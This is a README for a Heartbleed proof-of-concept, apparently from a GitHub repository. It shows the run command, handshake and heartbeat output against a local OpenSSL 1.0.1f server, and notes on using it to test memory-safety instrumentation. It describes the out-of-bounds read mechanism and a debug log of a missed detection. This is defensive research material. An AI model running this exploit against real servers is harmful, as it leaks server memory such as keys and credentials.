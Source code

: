 Heartbleed PoC
===========

This is the Heartbleed PoC, adapted from [mpgn's initial version](https://github.com/mpgn/heartbleed-PoC) and [SASIN83's fork](https://github.com/SASIN83/heartbleed-PoC/tree/patch-1). Notable changes:

* Tested with Python 3.10
* Removed dependency on pyfancy. Now this POC requires no extra package.

Example run:

Client:

```
python3 ./heartbleed-exploit.py localhost 4433
Connecting localhost at port 4433
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 947
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4:
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING: server returned more data than it should - server is vulnerable!
```

Server:

```
# generate key.pem and cert.pem first
openssl-1.0.1f/apps$ ./openssl s_server -key key.pem -cert cert.pem -accept 4433 -www
WARNING: can't open config file: /usr/local/ssl/openssl.cnf
Using default temp DH parameters
Using default temp ECDH parameters
ACCEPT
read R BLOCK
140010939967168:error:140940E5:SSL routines:SSL3_READ_BYTES:ssl handshake failure:s3_pkt.c:989:
ACCEPT
```

# Notes about using this POC to test spatial memory safety protection

If you have a tool that instrument runtime checks into C programs and you want to validate it using Heartbleed (this was my motivation to update this exploit), please double check if its implementation can catch the bug in theory. Essentially, OpenSSL allocates a big buffer (e.g., 17.3KB) for incoming messages, and messages are read and stored in this buffer. If the tool retrieve object bounds from allocator calls (e.g., malloc()), pointers to message body will have the bounds of the entire buffer. Therefore, this POC would NOT trigger runtime check failures unless there are enough messages received.

My debug log for troubleshooting missed detection: (edited for readability)
```
// int BIO_read(BIO *b, void *out, int outl);
// site [20508]:  at openssl-1.0.1f/ssl/s3_pkt.c: 239:  i=BIO_read(s->rbio,pkt+len+left, max-left);
// site [119220]: at openssl-1.0.1f/ssl/t1_lib.c: 2586: <check for memcpy at that line>
// columns: EventID [SiteID] EventName <details>...
5833622:  [20508] BIO_read {/*b*/0x562aea4b6ba0, /*out*/0x562aea4c75ce, /*outl*/214}, bounds for out: [0x562aea4c75c0, 0x562aea4cbb08]
16866085: [20508] BIO_read {/*b*/0x562aea4b6ba0, /*out*/0x562aea4c75c3, /*outl*/5},   bounds for out: [0x562aea4c75c0, 0x562aea4cbb08]
16866267: [20508] BIO_read {/*b*/0x562aea4b6ba0, /*out*/0x562aea4c75c8, /*outl*/3},   bounds for out: [0x562aea4c75c0, 0x562aea4cbb08]
16866529: [119220] check {addr=0x562aea4c75cb, bounds=[0x562aea4c75c0, 0x562aea4cbb08], len=16384}
```
To stop heartbleed, the last check must fail. However, it is passing because the bounds cover the entire buffer instead of just the malicious message.
